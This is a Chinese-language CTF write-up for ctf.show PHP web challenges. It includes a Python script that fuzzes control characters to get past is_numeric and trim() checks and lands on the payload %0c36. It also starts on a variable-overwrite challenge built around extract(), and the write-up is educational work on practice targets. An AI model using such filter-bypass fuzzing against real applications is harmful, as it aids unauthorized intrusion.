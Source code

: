```php
```

对于 `===` 的强类型比较, 但凡比较的字符串有一点点的不一样 (空格 tab 换行符等), 就返回 false

这样子我们可以绕过前两个比较, 即 `is_numeric($num) and $num !== '36'`

`filter()` 没有对上面提到的特殊字符进行处理, 只是过滤了十六进制, 八进制这些利用进制转换和科学计数法的 tricks

但问题是这里的 `trim()` 会去除空格和 tab 等字符

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208112050562.png)

我们需要找到一个不能够被 `trim()` 去除的字符

fuzz 一下 ASCII 0-31 字符

```python
import requests
from urllib.parse import unquote

url = 'http://c26198d2-57c2-4252-bdac-4df1ada2df20.challenge.ctf.show/?num='

for i in range(32):
    if i < 16:
        s = '0' + str(hex(i).replace('0x', ''))
    else:
        s = str(hex(i).replace('0x', ''))
    payload = '%' + s + '36'
    res = requests.get(url + unquote(payload))
    if 'ctfshow' in res.text:
        print(payload)
```

最终的 payload 是 `%0c36`, 即 `\f36`, 其中 `\f` 是换页符 (我也不知道具体是啥...)

```
http://c26198d2-57c2-4252-bdac-4df1ada2df20.challenge.ctf.show/?num=%0c36
```

## web123

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208112121392.png)

考察变量覆盖, 需要通过 eval 构造出 `$fl0g` 这个变量, 而且不能赋值

没有过滤 `()` `_` `$`, 猜测是通过函数来实现

变量覆盖的相关函数

```php
extract()
parse_str()
import_request_variables()
```

这里使用 `extract()`
